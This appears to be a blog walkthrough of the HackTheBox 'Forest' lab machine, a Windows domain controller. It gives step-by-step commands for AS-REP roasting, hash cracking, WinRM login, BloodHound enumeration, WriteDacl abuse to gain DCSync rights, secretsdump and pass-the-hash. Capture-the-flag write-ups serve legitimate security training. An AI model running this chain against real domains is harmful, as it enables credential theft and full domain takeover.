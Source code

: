 ```yaml
---
layout: post
title: HackTheBox Forest Walkthrough
image: /assets/img/blog/forest.jpg
accent_image: 
  background: url('/assets/img/blog/forest.jpg') center/cover
  overlay: false
accent_color: '#ccc'
theme_color: '#ccc'
description: >
  In this post you will find a step by step resolution walkthrough of the Forest machine on HTB platform 2023.
invert_sidebar: true
---
```


# HackTheBox Forest Walkthrough

Forest in an easy/medium difficulty Windows Domain Controller (DC), for a domain in which Exchange Server has been installed. 
The DC allows anonymous LDAP binds, which is used to enumerate domain objects. The password for a service account with 
Kerberos pre-authentication disabled can be cracked to gain a foothold. The service account is found to be a member of the Account 
Operators group, which can be used to add users to privileged Exchange groups. The Exchange group membership is leveraged to gain 
DCSync privileges on the domain and dump the NTLM hashes.

* toc
{:toc}

## Enumeration
To enumerate the machine a first nmap scan to discover the open TCP ports on the machine was performed. Also when the open ports 
were retrieved a more in depth scan including fingerprinting was issued. With the following commands:
~~~bash
# First nmap scan
sudo nmap -sS -p- --min-rate 500 --open 10.10.10.161 -Pn -n -oG recon_10.10.10.161
# Exhaustive scan of the open ports
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49684,49703 -sCV 10.10.10.161 -Pn -n -oN openports_10.10.10.161
~~~

The results obtained by this scans showed some interesting open ports:
![800x400](/assets/img/blog/nmapforest.png "Nmap scan")
* Port 53 is open and is hosting a DNS service over TCP – version: Simple DNS Plus
* Port 88 is open and is hosting the kerberos service.
* Ports 135 / 139 / 445 are open and are hosting the RPC / NetBIOS / SMB share services respectively.
* Ports 389 / 3268 and 636 / 3269 are open and hosting the LDAP/S services respectively
* Port 464 is open are hosting a Kerberos password change service, typically seen on DCs and generally not of much interest.
* Ports 593 is open and hosting RPC services over HTTP.
* Ports 5985 and 47001 are hosting the WinRM service, which will be good if credentials are found.
* Port 9389 is hosting the .NET Message Framing service.
* Port 47001 is open, which is commonly associated with WinRM – Microsoft HTTPAPI httpd 2.0 — Check in browser to make sure its not a web server.
* Ports 49xxx are hosting the high port RPC services, typically not of much interest.

From the nmap scan we can see this is a `Domain Controller` with a hostname of `FOREST` and that this is the DC for the domain `htb.local`.

After enumerating many ports unsuccessfully, we found that via port 135 anonymous authentication was available and therefore some enumeration was valid. The `domain users` were enumerated for further attacks:
~~~bash
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' > users
~~~
![800x400](/assets/img/blog/forest/rcpenum.png "RPC enumeration")

## AS-REP Roasting
With the obtained users list we checked if any of them had the `UF_DONT_REQUIRE_PREAUTH` flag set executing the following impacket python script:
~~~bash
impacket-GetNPUsers htb.local/ -no-pass -usersfile content/users
~~~
![800x400](/assets/img/blog/forest/asrep.png "AS-REP Roast attack")

Amazing! a service account hash was dumped!

As this hash cannot be used to perform attacks as `pass-the-hash` we tried to crack it to obtain the plain-text password. After storing the obtained hash on a file named `hashes.asreproast` we cracked the pass using `Hashcat` a GPU based software used to crack password hashes.
~~~bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
~~~
![800x400](/assets/img/blog/forest/hashcrack.png "Cracking AS-REP hash")
Success :) A match seems to have been found! The obtained credentials are `svc-alfresco:s3rvice`
## Getting a foothold
With the obtained credentials we checked if they were valid on the domain with crackmapexec:
~~~bash
crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
~~~
![800x400](/assets/img/blog/forest/smbcme.png "Validating credentials with crackmapexec")

The output shows the credentials are valid on the domain, great! But as the user seems to be a low privileged user we still need an attack vector to get a foothold.

Checking again if the user can access the machine via `Win-RM` with CME, we got a result displaying a `PWNED!` message, meaning that the user is on the `remote-management-users` group and therefore we can connect to the machine remotely.
~~~bash
crackmapexec winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
~~~
![800x400](/assets/img/blog/forest/winrmcme.png "Crackmapexec for winrm")
The easiest way to access the machine is via `evil-winrm` as:
~~~bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
~~~
![800x400](/assets/img/blog/forest/evilwinrm.png "Evil-winrm connection")
Great we are inside! 😈

At this point we got the flag located at `C:\Users\svc-alfresco\Desktop\user.txt`
## Post-Exploitation enumeration
As this machine is `domain-joined` 2 types of enumeration can be performed, machine and domain enumeration. The first one in this case didn't gave back any interesting results, so our efforts centered on domain enum.
> 90% of the time the privilege escalation technique used in a domain will be domain-based.
{:.lead}
To enumerate the domain we used a ps script named `SharpHound` that gathers domain information and condenses the results in a zip file we can later inspect. To download and execute the script:
~~~bash
upload /home/kali/hackthebox/forest/content/../../../oscp/SharpHound.ps1 .
powershell -ep bypass
Import-Module .\Sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\svc-alfresco\Documents\ -OutputPrefix "forestEnum"
~~~
![800x400](/assets/img/blog/forest/sh.png "Download and execution of sharphound")
Once we got our results and transfered the data to our machine, we started Neo4j DB and bloodhound to analyse the results. To start both services:
~~~bash
sudo neo4j start
bloodhound
~~~
![800x400](/assets/img/blog/forest/neo4j.png "Neo4j+bloodhound start")

Looking for the paths, we start from Shortest Path on the Owned Principal. It shows that svc-alfresco is a member of `Service Accounts`, 
Service Accounts is a member of `Privileged IT Accounts`, which is a member of `Account Operators`. 
Account Operators is a member of `Exchage Windows Permissions`. Exchange Windows Permissions has `WriteDacl permission` on HTB.LOCAL.
![800x400](/assets/img/blog/forest/bh2.png "Path enumeration")
With this information we can abuse `WriteDacl` to grant us `DCSync` rights on the domain.
## Privilege Escalation
To abuse the previously gathered info, we created a user and added him to the `Exchange Windows Permissions` group:
~~~bash
net user pwned pwned123 /add /domain
net group "Exchange Windows Permissions" /add pwned
~~~
![800x400](/assets/img/blog/forest/adduser.png "UserAdd")
Then with the help of PowerView we abused WriteDacl. After uploading the script, we created a credential object for our password and credential. 
Then running the last command granted DCSync rights on our account.
~~~bash
upload /home/kali/hackthebox/forest/content/../../../oscp/PowerView.ps1
powershell -ep bypass
Import-Module .\PowerView.ps1
$pass = convertto-securestring 'pwned123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('HTB\pwned', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity pwned -Rights DCSync
~~~
![800x400](/assets/img/blog/forest/powerview.png "Privesc")
Once we set the apropiate rights we managet to dump the secrets of the DC.
~~~bash
secretsdump.py htb.local/pwned:'pwned123'@10.10.10.161
~~~
![800x400](/assets/img/blog/forest/secrets.png "Secrets dump")
After dumping all the hashes we can connect to the machine with the `Administrator` account performing a `pass-the-hash` attack as:
~~~bash
evil-winrm -i 10.10.10.161 -u Administrator -H <hash>
~~~
![800x400](/assets/img/blog/forest/eviladmin.png "evil-winrm admin connection")

At this point we successfully pwned the machine and we have got complete control of the system 💀💀💀

Last but not least we retrieved the flag located at `C:\Users\Administrator\Desktop\root.txt`
